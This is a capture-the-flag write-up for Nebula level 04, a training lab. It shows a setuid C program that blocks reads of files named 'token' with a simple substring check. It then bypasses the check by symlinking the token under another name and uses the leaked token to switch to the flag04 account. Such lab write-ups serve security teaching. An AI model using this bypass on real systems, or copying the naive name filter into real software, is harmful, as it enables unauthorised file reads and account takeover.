 ```yaml
---
layout: post
title: "Nebula04"
tags: Nebula
description: "Bypassing the restriction to read the token with symlink"
---
```



## Level 04

> This level requires you to read the token file, but the code restricts the files that can be read. Find a way to bypass it. To do this level, log in as the `level04` account with the password `level04`. Files for this level can be found in `/home/flag04`.

## Source code

```
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <sys/types.h>
#include <stdio.h>
#include <fcntl.h>

int main(int argc, char **argv, char **envp)
{
  char buf[1024];
  int fd, rc;

  if(argc == 1) {
      printf("%s [file to read]\n", argv[0]);
      exit(EXIT_FAILURE);
  }

  if(strstr(argv[1], "token") != NULL) {
      printf("You may not access '%s'\n", argv[1]);
      exit(EXIT_FAILURE);
  }

  fd = open(argv[1], O_RDONLY);
  if(fd == -1) {
      err(EXIT_FAILURE, "Unable to open %s", argv[1]);
  }

  rc = read(fd, buf, sizeof(buf));
  
  if(rc == -1) {
      err(EXIT_FAILURE, "Unable to read fd %d", fd);
  }

  write(1, buf, rc);
}
```

## Getting the flag

According to the task, we have to read the token, but if you will pay attention to the code you will notice that you can't read files with the `token` in the name. We don't have permissions to rename the token itself, but can try to create a symbolic link to the other file:

```
level04@nebula:/home/flag04$ ln -s /home/flag04/token /tmp/l33t
```
Let's check the property of the new file in the `/tmp` folder:

```
lrwxrwxrwx 1 level04 level04  18 2021-06-15 01:07 l33t -> /home/flag04/token
```
So our new file is now linked to the token. Let's try to read it:

```
level04@nebula:/home/flag04$ ./flag04 /tmp/l33t
06508b5e-8909-4f38-b630-fdb148a848a2
```
To get the flag itself we need `su` to the `flag04`. The token that we just read will be the password to this account. 

```
level04@nebula:/home/flag04$ su flag04
Password: 
sh-4.2$ id
uid=995(flag04) gid=995(flag04) groups=995(flag04)
sh-4.2$ getflag
You have successfully executed getflag on a target account
```